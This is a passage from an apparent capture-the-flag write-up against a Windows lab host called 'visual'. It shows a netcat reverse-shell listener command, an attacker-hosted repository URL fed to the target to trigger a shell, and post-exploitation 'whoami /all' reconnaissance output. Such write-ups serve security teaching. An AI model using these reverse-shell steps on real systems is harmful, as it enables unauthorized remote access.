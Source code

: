 ```shell
rlwrap -cAr nc -lvnp 4444
```

All is set, start the process from the web interface, and provide the URL of our repository :

[http://10.10.14.23:9090/repo-visual/](http://10.10.14.23:9090/repo-visual/)

We get a reverse shell :

![Untitled](assets/reverse_shell.png)

## Post-Exploitation

### Host Reconnaissance

```xml
whoami /all

USER INFORMATION
----------------

User Name   SID
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes

==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
```
